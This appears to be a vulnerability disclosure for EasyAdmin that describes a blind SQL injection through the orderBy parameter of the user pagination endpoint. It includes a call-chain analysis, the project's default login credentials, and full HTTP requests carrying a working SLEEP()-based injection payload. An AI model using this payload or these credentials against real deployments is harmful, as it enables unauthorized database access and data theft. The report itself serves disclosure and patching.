





## Vulnerability Description

EasyAdmin (master branch) contains a SQL injection vulnerability in the "System - User Management -> Complex Pagination Query Example" function. The `GET /sys/user/pageComplexAll` endpoint accepts a user-controllable `orderBy` parameter. In the `PageVO.toPage()` method, this parameter is passed directly to an `OrderItem` object without any whitelist validation or filtering. Subsequently, the MyBatis-Plus pagination plugin concatenates this parameter directly into the `ORDER BY` clause of the SQL statement. Any authenticated user (e.g., using the default credentials `laker` / `lakernote`) can craft a malicious `orderBy` value (such as utilizing `SLEEP()` or `UPDATEXML()`) to perform time-based or boolean-based blind SQL injection, thereby extracting all sensitive data from the database.

Gitee：https://gitee.com/lakernote/easy-admin

GitHub：https://github.com/lakernote/easy-admin

## **Vulnerability Analysis**

com.laker.admin.module.sys.controller.SysUserController#pageComplexAll



com.laker.admin.framework.model.PageVO#toPage



**Call Chain**

```
GET /sys/user/pageComplexAll?orderBy=<payload>
└─ SysUserController#pageComplexAll                          SysUserController.java:82
   ├─ page.toPage()                                          PageVO.java:83
   │  └─ PageVO#toPage                                       PageVO.java:42
   │     ├─ split(orderBy, ",")                              PageVO.java:48
   │     ├─ split(orderItemStr, " ")                         PageVO.java:50
   │     ├─ order = orderAndSort.get(0)                      PageVO.java:54  ← injection
   │     └─ new OrderItem(order, isAsc)                      PageVO.java:56  ← sink
   └─ sysUserService.page(roadPage, queryWrapper)            SysUserController.java:84
      └─ ServiceImpl#page → SysUserMapper#selectPage         BaseMapper
         └─ MybatisPlusInterceptor                           MybatisConfig.java:23
            ├─ EasyDataPermissionV2Interceptor               MybatisConfig.java:27
            └─ PaginationInnerInterceptor                    MybatisConfig.java:33
               └─ ORDER BY <order>                           SQL
```

## Steps to Reproduce

**1. Login with Default Credentials**

Access the EasyAdmin login page, enter the default username `laker` and password `lakernote`, and click login to successfully enter the backend management dashboard.


**Login Request**

```
POST /sys/auth/v1/login HTTP/1.1
Host: localhost:8080
Content-Length: 102
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"username":"laker","password":"lakernote","captchaCode":"5","uid":"b6148ebc72914e92a95516fc2eaa81a5"}
```

**2. Locate the Function Point and Observe the Data Packet**

Access the "System - User Management -> Complex Pagination Query Example" page. Since the frontend does not directly provide a sorting button, use a proxy tool like Burp Suite to intercept the data loading request of this page.

Observe that the request is `GET /sys/user/pageComplexAll?page=1&limit=10&orderBy=xxx`, where the `orderBy` parameter specifies the sorting field.



**3. Craft the Payload and Verify the Vulnerability**

Use Burp Suite to intercept the request that loads the user list, and modify the `orderBy` parameter to a time-based blind SQL injection payload (for example, using the `sleep()` function to determine the database name):

```
GET /sys/user/pageComplexAll?current=1&size=10&orderBy=(select/**/case/**/when/**/(database()='laker')/**/then/**/sleep(3)/**/else/**/0/**/end)+desc HTTP/1.1
```

Under normal testing, the response time of this endpoint is approximately **22 milliseconds**. However, after sending the crafted payload, the server response time is delayed by approximately **3 seconds**. This significant time difference confirms that the `orderBy` parameter is directly concatenated into the `ORDER BY` clause without security filtering, resulting in a time-based blind SQL injection vulnerability.

Normal request: 22 ms response



**Normal Request**

```
GET  /sys/user/pageComplexAll?current=1&size=10&orderBy=create_time+desc HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
LakerToken: 2f02e37c83db4ce092bdabbfddc46d86
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/view/system/user.html
Accept-Encoding: gzip, deflate, br
Cookie: LakerToken=2f02e37c83db4ce092bdabbfddc46d86
Connection: keep-alive
```

**The server response time for the SQL injection is delayed by approximately 3 seconds.**



```
GET  /sys/user/pageComplexAll?current=1&size=10&orderBy=(select/**/case/**/when/**/(database()='laker')/**/then/**/sleep(3)/**/else/**/0/**/end)+desc HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
LakerToken: 2f02e37c83db4ce092bdabbfddc46d86
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/view/system/user.html
Accept-Encoding: gzip, deflate, br
Cookie: LakerToken=2f02e37c83db4ce092bdabbfddc46d86
Connection: keep-alive

```
